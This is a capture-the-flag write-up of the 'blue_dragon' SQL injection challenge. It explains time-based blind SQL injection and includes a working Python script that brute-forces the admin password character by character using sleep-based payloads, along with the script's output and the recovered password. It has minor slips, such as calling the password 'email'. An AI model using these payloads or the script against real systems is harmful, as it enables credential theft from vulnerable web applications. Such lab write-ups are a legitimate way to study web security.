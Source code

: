 ```yaml
---
custom_edit_url: null
sidebar_position: 27
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/9093a8f1-4e71-4518-91fa-6e53fa905e85)

We are provided with the SQL query:

```sql
SELECT id FROM prob_blue_dragon WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In order to solve this challenge we will have to use a Time-based Blind SQL Injection.

## Time-based Blind SQL Injection

We will be exploiting the Blind SQL Injection vulnerability by triggering time delays depending on whether an injected condition is true or false.

### Retrieving the password length

If we provide the following URI parameter:

```
?id=' OR if(id='admin' AND length(pw)=[length], sleep(3), 1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_blue_dragon WHERE id='' OR if(id='admin' AND length(pw)=[length], sleep(3), 1) -- -' AND pw=''
```

If the length of the `pw` for `id='admin'` is equal to the `[length]` that we provide, the SQL server will sleep for 3 seconds before returning the result. We can brute force the length by checking if response took more that 3 seconds after the request was sent.

### Leaking the password

If we provide the following URI parameter:

```
?id=' OR if(id='admin' AND substr(pw, [index], 1)='[character]', sleep(3), 1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_blue_dragon WHERE id='?id=' OR if(id='admin' AND substr(pw, [index], 1)='[character]', sleep(3), 1) -- -' AND pw=''
```

If the `id='admin'` and character of the `email` at `[index]` is the same as the `[character]` that we provide, the SQL server will sleep for 3 seconds before returning the result. We can brute force the length by checking if response took more that 3 seconds after the request was sent.

### Script

```python title="blue_dragon_script.py"
import requests
import urllib.parse
import string
import time

cookies = {'PHPSESSID': '4qt1p0e0vguiq8oousdc88vhv9'}
url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php"
password_length = 0

for x in range(0, 100):
  pre = time.time()
  payload = f"' OR if(id='admin' AND length(pw)={x},sleep(3),1) -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?id={encoded_payload}"

  response = requests.get(full_url, cookies=cookies)
  post = time.time()

  if post-pre >= 3:
    password_length = x
    break

print()    
print(f"[!] Payload: ?id={payload}")
print(f"[!] Payload (URL encoded): ?id={encoded_payload}")
print(f"[!] password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR if(id='admin' AND substr(pw,{index},1)='{char}',sleep(3),1) -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?id={encoded_payload}"

    pre = time.time()
    response = requests.get(full_url, cookies=cookies)
    post = time.time()

    if post-pre >= 3:
      password += char
      print()
      print(f"[+] Payload: ?id={payload}")
      print(f"[+] Payload (URL encoded): ?id={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
python .\blue_dragon_script.py

[!] Payload: ?id=' OR if(id='admin' AND length(pw)=8,sleep(3),1) -- -
[!] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+length%28pw%29%3D8%2Csleep%283%29%2C1%29+--+-
[!] password length: 8

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,1,1)='d',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C1%2C1%29%3D%27d%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 1: d

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,2,1)='9',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C2%2C1%29%3D%279%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 2: 9

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,3,1)='4',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C3%2C1%29%3D%274%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 3: 4

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,4,1)='8',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C4%2C1%29%3D%278%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 4: 8

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,5,1)='b',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C5%2C1%29%3D%27b%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 5: b

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,6,1)='8',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C6%2C1%29%3D%278%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 6: 8

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,7,1)='a',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C7%2C1%29%3D%27a%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 7: a

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,8,1)='0',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C8%2C1%29%3D%270%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 8: 0

[!] Extracted password: d948b8a0
[!] Final payload: ?pw=d948b8a0
```

If we provide the following URI parameter:

```
?pw=d948b8a0
```

The resultant query becomes:

```sql
SELECT id FROM prob_blue_dragon WHERE id='' AND pw='d948b8a0'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d8b1ad72-b6e9-45cf-8668-51c4825cd39d)
